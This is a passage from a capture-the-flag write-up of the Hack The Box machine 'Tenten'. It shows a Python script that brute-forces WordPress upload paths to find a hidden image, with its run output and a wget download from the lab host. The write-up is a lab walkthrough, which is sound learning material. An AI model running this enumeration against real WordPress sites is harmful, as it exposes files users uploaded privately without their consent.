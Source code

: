 From above we see number 13 which sounds interesting, check it out on website:

![tenten-access-granted](/assets/images/2020-07-29-22-24-55.png)

Going back to the exploit found earlier, take the example code and adjust for this scenario:

```text
root@kali:~/htb/machines/tenten# cat exploit.py
import requests
website = raw_input('Enter a vulnerable website: ')
filename = raw_input('Enter a file name: ')
filename2 = filename.replace(" ", "-")

for year in range(2016,2018):
    for i in range(1,20):
        for extension in {'doc','pdf','docx','jpg','jpeg','png'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

Now run it and see what it finds:

```text
root@kali:~/htb/machines/tenten# python2 ./exploit.py
Enter a vulnerable website: http://10.10.10.10
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

Get file and have a look at it:

```text
root@kali:~/htb/machines/tenten# wget http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
--2020-03-15 17:48:47--  http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
Connecting to 10.10.10.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 262408 (256K) [image/jpeg]
Saving to: ‘HackerAccessGranted.jpg’
HackerAccessGranted.jpg                             100%[=================================================================================================================>] 256.26K  1.42MB/s    in 0.2s
2020-03-15 17:48:47 (1.42 MB/s) - ‘HackerAccessGranted.jpg’ saved [262408/262408]

root@kali:~/htb/machines/tenten# file HackerAccessGranted.jpg
```